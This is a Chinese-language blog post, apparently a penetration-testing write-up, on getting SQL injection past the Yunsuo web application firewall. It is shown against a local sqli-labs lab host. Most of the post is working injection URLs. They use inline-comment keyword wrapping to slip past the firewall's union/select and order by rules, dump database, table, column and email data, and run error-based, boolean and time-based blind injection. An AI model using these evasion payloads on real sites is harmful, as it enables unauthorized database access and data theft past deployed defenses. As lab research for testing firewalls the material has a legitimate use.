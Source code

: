 ```yaml
---
title: "Bypass MySQL Yunsuo"
date: 2019-10-12T22:46:46+08:00
lastmod: 2019-10-12T22:46:46+08:00
draft: false
tags: []
categories: ['bypass']
comment: true
---
```


开锁

<!--more-->

继上文《Bypass MySQL Safedog》。

# 判断注入

智障云锁不拦截and or

```
http://172.16.1.157/sql/Less-1/?id=1' and 1=1 -- +	正常
http://172.16.1.157/sql/Less-1/?id=1' and 1=2 -- +	不正常
```

# 判断字段数

```
http://172.16.1.157/sql/Less-1/?id=1' order by  -- +	拦截
http://172.16.1.157/sql/Less-1/?id=1' order  3 -- +		不拦截
http://172.16.1.157/sql/Less-1/?id=1' by 3 -- +			不拦截
```

那就打乱order by

```
http://172.16.1.157/sql/Less-1/?id=1' order/*!50000*/ by 3 -- +	正常
http://172.16.1.157/sql/Less-1/?id=1' order/*!50000*/ by 4 -- +	不正常
http://172.16.1.157/sql/Less-1/?id=1' order/*!50000by*/  3 -- +	正常
http://172.16.1.157/sql/Less-1/?id=1' order/*!50000by*/  4 -- +	不正常
```

# 联合查询

对union select的拦截比较狠，用all/distinct/distinctrow加内联注释打乱

```
http://172.16.1.157/sql/Less-1/?id=-1' union select 1,2,3 -- +	拦截
http://172.16.1.157/sql/Less-1/?id=-1' union all select 1,2,3 -- +	拦截
http://172.16.1.157/sql/Less-1/?id=-1' union all /*!select 1,2,3 -- +	不拦截
http://172.16.1.157/sql/Less-1/?id=-1' union all /*!select*/ 1,2,3 -- +	拦截
http://172.16.1.157/sql/Less-1/?id=-1' union all /*!00000select*/ 1,2,3 -- +	拦截
http://172.16.1.157/sql/Less-1/?id=-1' union /*!00000all*/ /*!00000select*/ 1,2,3 -- +	不拦截
```

得到结论为在关键字两边包裹内联，如：`/*!00000union*/`

```
http://172.16.1.157/sql/Less-1/?id=-1' /*!00000union*/ /*!00000all*/ /*!00000select*/ 1,2,3 -- +
http://172.16.1.157/sql/Less-1/?id=-1'  union/*!50000distinct /*!50000select*/1,2,database() -- '
http://172.16.1.157/sql/Less-1/?id=-1'  /*!00000union/*!00000 distinct*/ select 1,2,database/**/() -- +
http://172.16.1.157/sql/Less-1/?id=-1'  /*!00000union/*!00000 distinct select*/ 1,2,database/**/() -- +
http://172.16.1.157/sql/Less-1/?id=-1' /*!00000union *//*!00000 /*!distinct select*/ 1,2,database/**/() -- +
```

```
http://172.16.1.157/sql/Less-1/?id=-1' union /*!00000all*/ /*!00000select*/ 1,2,(select table_name) -- +	不拦截
http://172.16.1.157/sql/Less-1/?id=-1' union /*!00000all*/ /*!00000select*/ 1,2,(select table_name from) -- +	拦截
```

使用内联包裹关键字就可以了

库名

```
http://172.16.1.157/sql/Less-1/?id=-1' union /*!00000all*/ /*!00000select*/ 1,2,(/*!00000select*/ schema_name /*!00000from*/ information_schema.schemata  limit 0,1) -- +
```

表名

```
http://172.16.1.157/sql/Less-1/?id=-1' union /*!00000all*/ /*!00000select*/ 1,2,(/*!00000select*/ table_name /*!00000from*/ information_schema.tables where table_schema=database() limit 0,1) -- +
```

列名

```
http://172.16.1.157/sql/Less-1/?id=-1' union /*!00000all*/ /*!00000select*/ 1,2,(/*!00000select*/ column_name /*!00000from*/ information_schema.columns where table_name='emails' and table_schema=database() limit 0,1) -- +
```

查数据

```
http://172.16.1.157/sql/Less-1/?id=-1' union /*!00000all*/ /*!00000select*/ 1,2,(/*!00000select*/ email_id /*!00000from*/ emails  limit 0,1) -- +
```

# 报错注入

```
http://172.16.1.157/sql/Less-1/?id=-1' and /*!00000updatexml*/(1,concat(0x7e,user(),0x7e),1) -- +
```

# 盲注

我手工测得时候发现云锁对盲注友好的很，对于and之后的比较运算符以及字符串截取函数几乎上不拦截，甚至是不用绕。

## 布尔盲注

判断长度

```
http://172.16.1.157/sql/Less-1/?id=1' and length(database())=8 -- +
```

逐位

```
http://172.16.1.157/sql/Less-1/?id=1' and substr(database(),1,1)='s' -- +	http://172.16.1.157/sql/Less-1/?id=1' and left(database(),1)='s' -- +
```

查表

```
http://172.16.1.157/sql/Less-1/?id=1' and substr((/*!00000select*/ table_name /*!00000from*/ information_schema.tables limit 0,1),1,1)='C' -- +
```

可以发现跟上面联合查询一样的，只需要给关键字加内联就行了，布尔盲注就到这。

## 时间盲注

写到这发现if()和sleep()都不用绕。。。

```
http://172.16.1.157/sql/Less-1/?id=1' and if((user()='root@localhost'),sleep(5),1) -- +
```

用到select的时候就用内联就完事了。

# 总结

云锁相比安全狗来讲规则弱的太多了，尤其是对于盲注的拦截，简直不要太友好，对于into outfile也不拦截，算是给安全从业人员留了后路。

ps：有趣的是云锁官网用的是奇安信+云锁双waf

![20191013002322](https://y4er.com/img/uploads/20191013002322.png)

![20191013002442](https://y4er.com/img/uploads/20191013002442.png)




**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**